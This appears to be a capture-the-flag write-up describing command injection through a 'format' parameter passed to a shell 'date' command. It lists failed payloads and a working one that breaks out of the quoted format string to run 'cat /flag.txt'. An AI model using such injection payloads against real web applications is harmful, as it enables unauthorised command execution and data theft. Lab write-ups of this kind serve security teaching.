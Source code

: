     - The application inserts user input directly into a shell command
    - **Problem**: Lack of input sanitization → **Command injection vulnerability**
2. **Obstacles**
    - `exec()` captures only the **first line** of output
    - Standard payloads (`;`, `&&`) were displayed but not executed

---

## **Step 2: Failed Attempts & Debugging**

| Payload | Result | Reason |
| --- | --- | --- |
| `?format=%H:%M:%S;id;` | `It's 09:40:14;id;` | `;`was printed, not executed |
| `?format=$(cat+/flag.txt)` | No output | Backticks/`$()`filtered |
| `?format=%0Acat+/flag.txt` | Time + literal`%0A...` | Newline ineffective |

**Breakthrough**: The `date` command's **format string** could be escaped

---

## **Step 3: The Winning Exploit**

### **Payload**:

```
/?format=%H:%M:%S%27|cat+/flag.txt+%23
```

### **How It Works**

1. **`%27`**: Single quote (`'`) closes the format string:
    
    ```bash
    date '+%H:%M:%S'|cat /flag.txt #'
    ```
    
2. **`|`**: Pipes the `date` output to `cat /flag.txt`
3. **`%23`**: `#` comments out remaining code (`' 2>&1`)

### **Result**

The server executed:

```bash
cat /flag.txt
```

Successfully retrieving the flag!

---

---
